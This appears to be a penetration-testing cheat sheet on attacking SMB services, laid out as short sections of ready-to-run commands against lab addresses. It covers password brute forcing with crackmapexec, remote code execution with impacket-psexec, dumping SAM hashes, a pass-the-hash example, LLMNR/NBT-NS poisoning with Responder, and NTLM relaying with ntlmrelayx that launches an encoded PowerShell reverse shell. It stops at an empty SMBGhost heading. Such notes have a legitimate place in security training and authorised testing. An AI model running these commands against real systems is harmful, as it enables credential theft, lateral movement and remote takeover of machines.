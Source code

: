 ## Enumeration

Refer to Service enumeration.

## Protocol Specific Attacks

### Brute Forcing 

```bash
crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' --local-auth # --local-auth checks for local account instead of domain
```

### Remote Code Execution (RCE)

The PSExec service then creates a named pipe that can send commands to the system.

```bash
## PsExec
impacket-psexec administrator:'Password123!'@10.10.110.17
```

### CrackMapExec Attack Vectors

```bash
## RCE
crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec

## Enumerate logged-on users
crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users

## Extract hashes from SAM
crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam

## PtH Attack
crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE
```

### Forced Authentication Attacks

Abuse the SMB protocol by creating a fake SMB Server to capture users' NetNTLM v1/v2 hashes.

```bash
## Responder - LLMNR, NBT-NS, and MDNS poisoner
sudo responder -I ens33
```

If we cannot crack the hash, we can potentially relay the captured hash to another machine using impacket-ntlmrelayx or Responder MultiRelay.py.

```bash
cat /etc/responder/Responder.conf | grep 'SMB ='

impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146

## Relay the hash to call Powershell
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e $reverse_shell'
```

## Noticeable SMB Vulnerability

### CVE-2020-0796 (SMBGhost)